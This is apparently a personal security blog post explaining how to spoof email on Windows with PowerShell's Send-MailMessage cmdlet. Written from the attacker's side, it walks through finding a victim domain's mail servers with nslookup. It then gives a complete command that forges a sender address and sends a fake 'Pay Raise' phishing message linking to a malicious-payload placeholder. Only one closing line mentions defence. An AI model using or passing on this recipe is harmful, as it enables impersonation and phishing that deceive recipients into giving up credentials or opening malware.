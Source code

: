 ```yaml
---
layout: post
title:  "Email Spoofing With Powershell"
author: Michael
categories: [ powershell, spoofing, email ]
image: assets/images/spoofps1.png
featured: false
hidden: false
---
```

<p><img src="/assets/images/spoofps1.png"></p>
I had previously written about <a href="/email-spoofing/netcat">Email Spoofing With Netcat/Telnet<a/> and it was a seemingly instant hit. Even though the same commands were applicable to Windows users through telnet, which is off by default on Windows installations, or netcat if you chose to install it, neither is an immediate “pickup and go” solution. So both of those methods, while native to most Linux distros, require some added effort for Windows users to take advantage of them. While I was doing some research on this, I discovered there’s a built in Powershell cmdlet that allows you to do the same thing on Windows and seemingly much easier in my opinion.
<center><blockquote class="twitter-tweet"><p lang="en" dir="ltr">Powershell has a built in cmdlet called &quot;Send-MailMessage&quot; that makes email spoofing a breeze. One line and you can send HTML, Attachments, High Priority, whatever the heart desires. <a href="https://twitter.com/hashtag/Email?src=hash&amp;ref_src=twsrc%5Etfw">#Email</a> <a href="https://twitter.com/hashtag/EmailSpoofing?src=hash&amp;ref_src=twsrc%5Etfw">#EmailSpoofing</a> <a href="https://twitter.com/hashtag/Spoofing?src=hash&amp;ref_src=twsrc%5Etfw">#Spoofing</a> <a href="https://twitter.com/hashtag/Powershell?src=hash&amp;ref_src=twsrc%5Etfw">#Powershell</a> <a href="https://t.co/lSDYh8tEdg">pic.twitter.com/lSDYh8tEdg</a></p>&mdash; Michael (@The4rchangel) <a href="https://twitter.com/The4rchangel/status/1053047816270995457?ref_src=twsrc%5Etfw">October 18, 2018</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>
<blockquote>People ended up pretty excited about this cmdlet.</blockquote></center>

#### THE OPTIONS

If you reference the image at the top of the post, you’ll notice this command accepts many different kinds of input. You have all sorts of options including:
<ul>
<li>To:</li>
<li>From:</li>
<li>CC and BCC:</li>
<li>Subject:</li>
<li>SmtpServer:</li>
<li>Port</li>
<li>BodyAsHtml: (renders any HTML code in the body AS HTML)</li>
<li>Attachments</li>
<li>Encoding:</li>
<li>Priotity</li>
<li>and more…</li>
</ul>

#### FINDING AN SMTP SERVER

You can do this on Windows with “nslookup”:
```
PS C:\Users\Archangel> nslookup
Default Server:  REDACTED
Address:  192.168.29.1
> set q=mx
> gmail.com (any victims domain)
Server:  REDACTED
Address:  192.168.29.1
Non-authoritative answer:
gmail.com       MX preference = 30, mail exchanger = alt3.gmail-smtp-in.l.google.com
gmail.com       MX preference = 40, mail exchanger = alt4.gmail-smtp-in.l.google.com
gmail.com       MX preference = 5, mail exchanger = gmail-smtp-in.l.google.com
gmail.com       MX preference = 10, mail exchanger = alt1.gmail-smtp-in.l.google.com
gmail.com       MX preference = 20, mail exchanger = alt2.gmail-smtp-in.l.google.com
>
```
<blockquote> Any of the text following a '>' was typed by myself (the attacker)</blockquote>
Any of the “Mail Exchanger” servers will be SMTP servers you can try for the domain.

#### CRAFTING THE EMAIL

Here’s an example of some of the components of the in this cmdlet used to make craft an email:
```
Send-MailMessage -SmtpServer mail.contoso.com -Port 25 -To victim@contoso.com -From imtheboss@contoso.com -Priority High -Subject "Pay Raise" -BodyAsHtml -Body "Dear Michael, <br><br> We have decided to offer you a 90% pay raise. Please follow this link to confirm your interest and initiate the updated payroll: <a href='maliciouspayload.com'> Confirm Raise </a>. <br><br> Thank you, <br> Upper Management"
```
<p><center><img src="/assets/images/spoofps2.jpeg"></center></p>
There are also plenty of other options available to you, as seen from the Get-Help text at the top. Feel free to get creative! Hopefully your mail admin has the measures in place to prevent this.
